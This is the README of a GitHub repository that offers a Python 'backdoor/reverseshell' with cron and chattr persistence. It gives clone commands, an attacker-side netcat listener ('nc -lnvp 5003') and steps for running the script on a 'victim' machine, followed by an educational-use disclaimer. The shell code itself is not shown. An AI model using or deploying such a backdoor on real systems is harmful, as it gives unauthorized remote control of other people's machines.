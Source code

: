 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 backdoor/reverseshell.
- shell.py is the single reverseshell without cronjob and chattr function

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use:snake:?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Or download the zip:
- https://github.com/Keyj33k/ReverseShell/archive/refs/heads/main.zip

## You will find a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- On the vivtim machine:
```
python3 reverseshell.py 
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---

# Thank you
<div id="badges">
  <a href="https://www.instagram.com/keyjeek/">
    <img src="https://img.shields.io/badge/instagram-%23E4405F.svg?style=for-the-badge&logo=Instagram&logoColor=white" alt="Instagram Badge"/>
  </a>
  <a href="https://github.com/Keyj33k">
    <img src="https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="Github Badge"/>
  </a>
  <a href="https://twitter.com/keyjeek">
    <img src="https://img.shields.io/badge/Twitter-blue?style=for-the-badge&logo=twitter&logoColor=white" alt="Twitter Badge"/>
  </a>
</div>
